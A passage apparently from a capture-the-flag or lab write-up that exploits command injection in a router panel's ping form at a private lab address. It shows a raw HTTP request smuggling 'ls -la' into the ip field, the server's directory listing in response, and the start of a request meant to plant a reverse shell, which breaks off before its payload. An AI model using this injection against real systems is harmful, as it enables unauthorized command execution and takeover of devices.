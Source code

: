 User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.56.176/myrouterpanel/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

ip=127.0.0.1%0Als -lasubmit=

```

# output:


```
HTTP/1.1 200 OK
Date: Mon, 18 Sep 2023 15:09:39 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 750
Connection: close
Content-Type: text/html; charset=UTF-8

<pre>PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.024 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.036 ms
64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.034 ms
64 bytes from 127.0.0.1: icmp_seq=4 ttl=64 time=0.055 ms

--- 127.0.0.1 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3051ms
rtt min/avg/max/mdev = 0.024/0.037/0.055/0.011 ms
total 24
drwxr-xr-x 2 root root 4096 May 23 13:08 .
drwxr-xr-x 3 root root 4096 Apr 19 16:44 ..
-rw-r--r-- 1 root root 1310 Apr 16 13:12 index.html
-rw-r--r-- 1 root root  767 May 23 12:55 ping.php
-rw-r--r-- 1 root root 1240 Apr 16 13:08 style.css
-rw-r--r-- 1 root root  211 Apr 15 08:30 under-construction.html
</pre>


```

Now, let's attempt to upload a reverse shell.

```
POST /myrouterpanel/ping.php HTTP/1.1
Host: 10.10.56.176
Content-Length: 84
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.56.176
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.56.176/myrouterpanel/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
